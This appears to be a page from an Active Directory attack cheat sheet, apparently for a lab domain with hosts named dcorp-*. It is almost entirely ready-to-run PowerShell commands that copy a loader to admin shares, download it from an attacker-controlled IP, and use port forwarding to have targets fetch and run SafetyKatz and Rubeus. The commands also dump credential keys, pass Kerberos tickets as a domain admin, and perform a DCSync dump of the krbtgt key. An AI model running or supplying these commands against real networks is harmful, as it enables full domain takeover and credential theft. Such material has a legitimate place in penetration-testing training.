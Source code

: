 
## Misc

{% tabs %}
{% tab title="Transfers" %}
{% code overflow="wrap" %}
```powershell
# Copy a file to a share
echo F | xcopy Loader.exe \\dcorp-?\c$\users\public\Loader.exe
# Download a file
iwr 'http://172.16.100.37/Loader.exe' -OutFile c:\users\public\loader.exe
```
{% endcode %}
{% endtab %}

{% tab title="Port Forward" %}
Directly:

{% code overflow="wrap" %}
```powershell
# Connect to the target host
winrs -r:<target> cmd

# Create a port forward
netsh interface portproxy add v4tov4 listenport=8080 listenaddress=0.0.0.0. connectport=80 connectaddress=172.16.100.37

# Run binary
c:\users\public\Loader.exe -path http://127.0.0.1:8080/SafetyKatz.exe "sekurlsa::evasive-keys" "exit"
```
{% endcode %}

Via WinRS:

{% code overflow="wrap" %}
```powershell
# Create a port forward via winrs
$null | winrs -r:dcorp-mgmt "netsh interface portproxy add v4tov4 listenport=8080 listenaddress=0.0.0.0. connectport=80 connectaddress=172.16.100.37"

# Run binary via winrs
$null | winrs -r:dcorp-mgmt "cmd /c c:\users\public\loader.exe -path http://127.0.0.1:8080/SafetyKatz.exe -args sekurlsa::evasive-keys exit"
```
{% endcode %}
{% endtab %}

{% tab title="DCSync" %}
{% code overflow="wrap" %}
```powershell
# Launch a new process as the DA
Loader.exe -path Rubeus.exe -args asktgt /user:<DA> /aes256:<key> /opsec /createnetonly:c:\windows\system32\cmd.exe /show /ptt

# Copy the binary to the DC
echo F | xcopy Loader.exe \\dcorp-dc\c$\users\public\loader.exe

# Connect to the target host
winrs -r:dcorp-dc cmd

# Create a port forward
netsh interface portproxy add v4tov4 listenaddress=0.0.0.0. listenport=8080 connectaddress=172.16.100.37 connectport=80

# Dump the aes256 key of the krbtgt account via DCSync (preferred)
> Loader.exe -path SafetyKatz.exe -args "lsadump::evasive-dcsync /user:dcorp\krbtgt" "exit"
```